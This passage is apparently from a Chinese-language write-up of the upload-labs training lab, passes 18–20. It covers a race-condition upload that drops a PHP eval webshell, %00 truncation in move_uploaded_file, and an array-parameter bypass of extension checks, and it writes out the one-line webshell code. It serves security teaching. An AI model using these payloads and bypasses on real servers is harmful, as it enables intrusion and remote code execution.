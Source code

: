 查看源码发现代码进行了校验后缀名、移动随后重命名的操作，这里依然通过条件竞争，无限高频上传文件，导致来不及重命名，从而成功访问webshell。

上传文件名为18.php.7z的文件，文件内容最下方为一句话木马，```<?php fputs(fopen('18.php','w'),'<?php @eval($_POST["x"])?>'); ?>```，这样只要文件被成功解析成PHP，就会生成18.php木马文件。

随后使用burp的intruder模块无限重放数据包，随后疯狂访问```http://127.0.0.1/upload-labs/upload/18.php.7z```(或者使用python脚本)，直到出现内容，说明竞争成功。

#### pass-19

move_uploaded_file() %00截断，查看源码发现move_uploaded_file()函数中的img_path是由post参数save_name控制的，因此可以在save_name利用%00截断绕过。

#### pass-20

数组绕过。查看源码发现文件名$file_name通过了```reset($file).'.'.$file[count($file)-1]```进行处理。且如果上传数组则会跳过```$file=explode('.', strtolower($file));```

最终的文件名后缀取的是```$file[count($file) - 1]```，因此我们可以让$file为数组。

我们上传文件名为20.php的文件，文件内容为一句话木马，随后save_name[0]设置为"20.php/",save_name[2]设置为jpg，即可成功上传webshell。

#### 文件上传思维导图
